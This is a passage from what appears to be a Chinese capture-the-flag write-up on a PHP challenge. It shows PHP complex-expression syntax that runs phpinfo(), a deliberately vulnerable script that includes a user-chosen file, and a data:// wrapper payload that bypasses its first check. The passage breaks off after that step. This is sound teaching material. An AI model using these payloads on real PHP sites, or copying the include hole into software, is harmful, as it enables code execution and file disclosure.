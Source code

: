#### PHP复杂表达式

这个是PHP语法之一，以下写法都可成功执行

```php
<?php
echo "{${phpinfo()}}";
echo ${phpinfo()};
echo strtolower("{${phpinfo()}}");
```

### 解题流程

#### 源码

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

#### 绕过点一

首先很明显看到可以使用`file_get_contents()`函数来触发PHP伪协议，使用`data://text/plain,I have a dream`，以让PHP读到所需的值

```
payload：?text=data://text/plain,I have a dream
```

<img src="CTF.assets/image-20230708171342360.png" alt="image-20230708171342360" style="zoom:50%;" />
